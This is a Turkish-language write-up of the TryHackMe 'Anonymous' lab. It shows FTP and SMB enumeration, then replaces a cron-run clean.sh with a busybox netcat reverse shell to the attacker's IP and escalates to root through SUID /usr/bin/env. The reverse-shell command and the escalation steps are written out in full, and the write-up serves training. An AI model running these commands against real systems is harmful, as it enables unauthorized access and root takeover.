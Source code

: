 ```yaml
---
title: 'TryHackMe | Anonymous WriteUp'
author: appdone
categories: [TryHackMe Challenges]
tags: [ftp, suid]
render_with_liquid: false
---
```


## Özet

Anonymous, `FTP` üzerinden sisteme shell yükleyerek sisteme giriş yaptığımız orta seviye bir linux makinedir. Bağlantı sonrasında `SUID` bitine sahip olan dosyaları listeyecek ve listede bulunan bir dosyadan faydalanarak yetki yükselteceğiz.

## Keşif aşaması

### Nmap taraması

```console
$nmap -sV -sC -T4 10.10.84.107
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-23 07:19 EDT
Nmap scan report for 10.10.84.107
Host is up (0.063s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.21.66.61
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2025-03-23T11:20:06+00:00
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-03-23T11:20:06
|_  start_date: N/A
|_clock-skew: mean: 1s, deviation: 0s, median: 1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.91 seconds
```

Tarama sonucunda 21 (FTP), 22 (SSH) ve 139/445 (SMB) numaralı portların açık olduğunu öğreniyoruz. Ayrıca `FTP` servisinin `anonymous` özelliği, SMB servisinin ise misafir kullanıcı özelliği aktif bulunuyor.

### 139/445 numaralı portlarının incelenmesi

SMBMap aracını kullanarak misafir oturumunda görüntüleyebildiğimiz dosyaları listelediğimizde pics adında bir paylaşım olduğunu görüyoruz. 

```console
$ smbmap -H 10.10.84.107 -r
[+] Guest session       IP: 10.10.84.107:445    Name: 10.10.84.107                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        pics                                                    READ ONLY       My SMB Share Directory for Pics
        .\pics\*
        dr--r--r--                0 Sun May 17 07:11:34 2020    .
        dr--r--r--                0 Wed May 13 21:59:10 2020    ..
        fr--r--r--            42663 Mon May 11 20:43:42 2020    corgo2.jpg
        fr--r--r--           265188 Mon May 11 20:43:42 2020    puppos.jpeg
        IPC$                                                    NO ACCESS       IPC Service (anonymous server (Samba, Ubuntu))
```

Bu dosyanın içerisinde `corgo2.jpg` ve `puppos.jpeg` olmak üzere iki dosya bulunuyor. İkisindende herhangi bir bilgi çıkaramadım.

```console
$smbclient \\\\10.10.84.107\\pics
Password for [WORKGROUP\appdone]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun May 17 07:11:34 2020
  ..                                  D        0  Wed May 13 21:59:10 2020
  corgo2.jpg                          N    42663  Mon May 11 20:43:42 2020
  puppos.jpeg                         N   265188  Mon May 11 20:43:42 2020

                20508240 blocks of size 1024. 13306816 blocks available
smb: \> get corgo2.jpg 
getting file \corgo2.jpg of size 42663 as corgo2.jpg (90.4 KiloBytes/sec) (average 90.4 KiloBytes/sec)
smb: \> get puppos.jpeg 
getting file \puppos.jpeg of size 265188 as puppos.jpeg (384.8 KiloBytes/sec) (average 265.1 KiloBytes/sec)
smb: \> 
```

### 21 numaralı portun incelenmesi

FTP servisine misafir kullanıcı olarak bağlandıktan sonra `clean.sh`, `removed_files.log` ve `to_do.txt` olmak üzere üç dosya ile karşılaşıyoruz.

```console
ftp> ls -la
229 Entering Extended Passive Mode (|||15032|)
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 Jun 04  2020 .
drwxr-xr-x    3 65534    65534        4096 May 13  2020 ..
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000         1720 Mar 23 11:36 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
226 Directory send OK.
ftp> 
```

`to_do.txt` dosyası içerisinde, misafir kullanıcı özelliğinin güvenli olmadığı ve kapatılması gerektiği yazıyor.

```
I really need to disable the anonymous login...it's really not safe
```

`clean.sh` dosyasının içerisinde ise  `Running cleanup script:  nothing to delete` yazısını `removed_files.log` dosyasına ekleyen bir `bash` kodu var.

```bash
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

`removed_files.log` dosyasını kontrol ettiğimizde `clean.sh` dosyasının defalarca çalıştırıldığınnı ve bu dosyaya yazdırıldığını görüyoruz.

```console
$ cat removed_files.log                                                                                                                                                                   
Running cleanup script:  nothing to delete                                                                                                                                                    
Running cleanup script:  nothing to delete                                                                                                                                                    
Running cleanup script:  nothing to delete
...
```

## Sömürü aşaması

`removed_files.log` dosyasından yola çıkarak `clean.sh` dosyasının ara ara çalıştırıldığını düşünebiliriz. Reverse shell kodumuzu aynı isimde bir dosyaya ekleeyelim.

```console
$ echo "busybox nc 10.21.66.61 1234 -e /bin/bash" > clean.sh
```

Daha sonra bu dosyayı `FTP` servisinde bulunan `scripts` dizinine yükledikten sonra bağlantının geleceği portu dinlemeye alalım.

```console
ftp> put clean.sh 
local: clean.sh remote: clean.sh
229 Entering Extended Passive Mode (|||37654|)
150 Ok to send data.
100% |*************************************************************************************************************************************************|    41        1.14 MiB/s    00:00 ETA
226 Transfer complete.
41 bytes sent in 00:00 (0.30 KiB/s)
```

Yaklaşık 15-20 saniye sonra dinlemeye aldığımız port üzerinden bağlantıyı elde ediyoruz.

```console
$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.21.66.61] from (UNKNOWN) [10.10.84.107] 42498
id
uid=1000(namelessone) gid=1000(namelessone) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

## Yetki yükseltme

### root

`SUID` bitine sahip olan dosyaları listelediğimizde içlerinden biri olan `/usr/bin/env` dosyası ilgimizi çekiyor.

```console
 namelessone@anonymous:/$ find / -perm -4000 2>/dev/null
...
/usr/bin/env
...
```

Bu dosyayı [GTFOBins](https://gtfobins.github.io/gtfobins/env/#suid) sitesinde arattıktan sonra sadece `/usr/bin/bash -p` komutunu ekleyerek yetki yükseltebileceğimizi öğreniyoruz. Bunu uyguladıktan sonra root haklarına sahip oluyor ve `/root` diziniden son bayrağımızı alıyoruz.

```console
namelessone@anonymous:/$ /usr/bin/env /bin/bash -p
bash-4.4# id
uid=1000(namelessone) gid=1000(namelessone) euid=0(root)...
bash-4.4# cd /root
bash-4.4# ls
root.txt
```
